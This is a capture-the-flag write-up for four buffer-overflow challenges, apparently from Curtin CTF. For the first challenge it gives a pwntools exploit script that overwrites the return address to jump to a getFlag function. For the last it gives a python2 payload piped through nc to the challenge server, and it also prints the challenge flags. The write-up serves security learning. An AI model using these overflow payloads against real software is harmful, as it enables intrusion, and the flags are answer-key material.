










# Classic Bufferoverflow



When running the program, it will show something like `ltrace` or `strace` command.



First of all when facing a **buffer overflow** challenge, find the offset which for this challenge is **40 bytes**.


Next, looking to the code using **gdb-gef** and theres 3 functions, main, getFlag and getInput.

The target is the function **getFlag**, obviously to give the flag. So, get the address of the function which is **0x00000000004011d6**.



The script to solve this challenge as below.

```python

from pwn import *
context.bits=64
conn = ELF('./challenge.bin')

rem=remote('3.26.44.175',3336)

offset=40
addr=0x004011d6

payload=b"a"*offset
payload+=p64(addr)

rem.sendline(payload)
rem.interactive()
```



> **Flag:** CURTIN_CTF{B4S1C_0V3RF10W}

# Intro to Buffer Overflow



Just a basic Buffer Overflow challenge.



> **Flag:** CURTIN_CTF{Y0UR_F1R5T_0V3RFL0W}

# Don't Go Overboard



For this challenge, you need to find the right offset so that it will overflow the buffer.

So, found it at 30 bytes but it still doesn't give the flag

At line 16, the program checks the argument of `0` and `5`.



So, include `05` in the payload, which is **30 bytes** of the letter **a**.

Like this `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa05`

> **Flag:** CURTIN_CTF{T@RG3TT3D_0V3RF10W}


# Don't Go Overboard 2



The challenge is similar to **Don’t Go Overboard**. But this time, it checks the argument of address instead of decimal number.

Look at the main function. At line 16, it checks for address `0xf` and `0x405`.



Put the address together with the payload and send it to the program like this.

`python2 -c 'print "AAAAAAAAAAAAAAAAAAAAB\x00\x00\x00\x05\x04\x00\x00\x0f"' | nc 3.26.44.175 3335`

> **Flag:** CURTIN_CTF{P4YL04D_0V3RF10W}